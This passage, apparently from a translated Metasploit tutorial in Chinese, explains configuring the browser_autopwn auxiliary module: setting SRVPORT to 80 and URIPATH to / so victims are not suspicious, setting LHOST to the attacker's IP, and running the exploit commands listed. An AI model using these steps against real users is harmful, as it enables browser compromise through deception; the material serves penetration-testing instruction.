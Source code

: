 让我们看看，我们需要设置哪些值来执行攻击。如以下屏幕截图所示：

![Client-side attacks with auxiliary modules](img/4483OT_04_17.jpg)

在前面的屏幕截图中，您可以看到详细的设置。我们已经将 SRV 端口设置为 80，这是默认的 HTTP 端口。这将避免受害者对与链接相关的威胁产生任何怀疑。将 URIPATH 设置为`/`也是如此，因为此选项使 URL 成为一个简单的 URL，而不附加乱七八糟的字母。我们还将 LHOST 设置为攻击者机器的 IP，在本例中是我们的机器本身。

这些命令的语法如下所示：

*   `msf auxiliary(browser_autopwn)>set lhost ip_address`
*   `msf auxiliary(browser_autopwn)>set srvport port_number`
*   `msf auxiliary(browser_autopwn)>set URIPATH /`
*   `msf auxiliary(browser_autopwn)>exploit`

一旦我们完成了值的设置，就可以运行`exploit`命令了。下面的屏幕截图显示，利用漏洞服务器通过加载利用漏洞脚本立即准备就绪！

![Client-side attacks with auxiliary modules](img/4483OT_04_18.jpg)
